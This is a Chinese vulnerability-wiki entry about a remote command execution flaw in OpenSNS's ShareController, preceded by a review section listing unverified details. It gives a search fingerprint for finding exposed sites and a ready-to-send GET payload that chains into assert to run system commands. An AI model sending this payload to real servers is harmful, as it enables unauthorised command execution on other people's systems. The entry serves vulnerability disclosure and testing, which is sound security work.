



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：shareBox/query动态调用链，Schedule与assert旧PHP可用，鉴权未列

- **事实待核（1）**：version为产品名，无实际版本；登录页面截图不能证明需/不需登录。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：payload出现%26\[6\]\[\]不带id键，与其他id索引结构不一致须原请求核对。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：完整调用源码仅图，Windows ver裸常量/命令示例依赖旧PHP；缺补丁/原始出处。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下



存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`



发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
